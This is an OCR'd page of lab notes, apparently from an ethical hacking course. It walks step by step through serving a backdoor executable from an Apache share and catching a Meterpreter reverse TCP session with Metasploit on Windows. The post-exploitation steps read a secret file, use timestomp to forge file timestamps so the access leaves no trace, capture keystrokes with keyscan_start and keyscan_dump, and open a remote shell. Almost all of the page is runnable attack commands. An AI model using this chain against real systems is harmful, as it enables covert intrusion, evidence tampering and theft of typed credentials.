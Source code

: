 ▪ Type chown -R www-data:www-data /var/www/html/share and press Enter 

    Copy : cp /home/attacker/Desktop/Backdoor.exe /var/www/html/share/  

    Type : service apache2 start 

    Type : msfconsole > use exploit/multi/handler 

    ▪ Type: set payload windows/meterpreter/reverse_tcp and press Enter  

         

            Type: set LHOST 10.10.1.13 and press Enter  

            Type: show options and press Enter; this lets you know the listening port 

    Type : exploit -j -z 

    Windows : http://<parrot_ip>/share 

    Open the backdoor file 

    Parrot : Inside Meterpreter : sessions -i 1 

    type : sysinfo 

    Type : ipconfig 

    Type : getuid 

    Type : pwd 

    Type : cat secret.txt ( which we have saved ) 

    Now, we will change the MACE attributes of the Secret.txt file. 

Note: While performing post-exploitation activities, an attacker tries to access files to read their contents. Upon doing so, the MACE (modified, accessed, created, entry) attributes immediately change, which indicates to the file user or owner that someone has read or modified the information. 

Note: To leave no trace of these MACE attributes, use the timestomp command to change the attributes as you wish after accessing a file. 

    Type: timestomp Secret.txt -v ( TO OPEN MACE ATTRIBUTES ) 

    To change the MACE value, type: timestomp Secret.txt -m “02/11/2018 08:10:03” and press Enter 

    Type: cd C:/ 

    Type : pwd 

    Can use search command to locate anything  

    Type: search -f pagefile.sys 

    Type: keyscan_start  

    Now, switch to the Windows 11 virtual machine, create a text file, and start typing something. 

    Type: keyscan_dump (This dumps all captured keystrokes.) 

    Type: idletime ( to display the amount of time for which the user has been idle on the remote system.) 

    Type: shell ( Open shell in meterpreter ) 
